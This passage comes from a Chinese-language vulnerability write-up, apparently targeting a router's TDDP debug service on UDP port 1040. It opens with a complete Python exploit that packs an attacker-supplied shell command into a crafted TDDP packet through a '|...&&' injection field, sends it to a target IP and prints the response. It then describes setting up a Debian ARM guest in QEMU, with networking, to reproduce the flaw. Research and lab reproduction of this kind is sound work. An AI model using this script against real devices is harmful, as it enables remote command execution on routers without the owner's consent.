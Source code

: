 
最后的exp，sys.argv[]用来接收输入的参数，tddp的端口是1040

	from pwn import *
	from socket import *
	import sys

	tddp_port = 1040

	s_send = socket(AF_INET,SOCK_DGRAM,0)
	s_recv = socket(AF_INET,SOCK_DGRAM,0)

	s_recv.bind(('',12345))

	payload = '\x01\x31'.ljust(12,'\x00')

	payload+= "aaa|%s&&echo ;aaa"%(sys.argv[2])

	print payload

	s_send.sendto(payload,(sys.argv[1],tddp_port))
	s_send.close()

	res,addr= s_recv.recvfrom(1024)

	print res


## **漏洞复现**

安装完qemu-arm之后从 Debian 官网下载 QEMU 需要的 Debian ARM 系统的三个文件:

	debian_wheezy_armhf_standard.qcow2 2013-12-17 00:04 229M

	initrd.img-3.2.0-4-vexpress 2013-12-17 01:57 2.2M

	vmlinuz-3.2.0-4-vexpress 2013-09-20 18:33 1.9M

把以上三个文件放在同一个目录执行以下命令

	sudo tunctl -t tap0 -u `whoami` # 为了与 QEMU 虚拟机通信，添加一个虚拟网卡

	$ sudo ifconfig tap0 10.10.10.1/24 # 为添加的虚拟网卡配置 IP 地址

	$ qemu-system-arm -M vexpress-a9 -kernel vmlinuz-3.2.0-4-vexpress -initrd
	initrd.img-3.2.0-4-vexpress -drive if=sd,file=debian_wheezy_armhf_standard.qcow2
	-append "root=/dev/mmcblk0p2 console=ttyAMA0" -net nic -net
	tap,ifname=tap0,script=no,downscript=no -nographic

![](<https://ws1.sinaimg.cn/large/7fb67c86ly1g66d83m73oj20p206un01.jpg>)

进入成功之后的界面，用户名和密码都是root。

![](<https://ws1.sinaimg.cn/large/7fb67c86ly1g66d8bnff4j20p20e8wn1.jpg>)

再配置网卡

	ifconfig eth0 10.10.10.2/24

![](<https://ws1.sinaimg.cn/large/7fb67c86ly1g66d8hw3yvj20p20ciahs.jpg>)
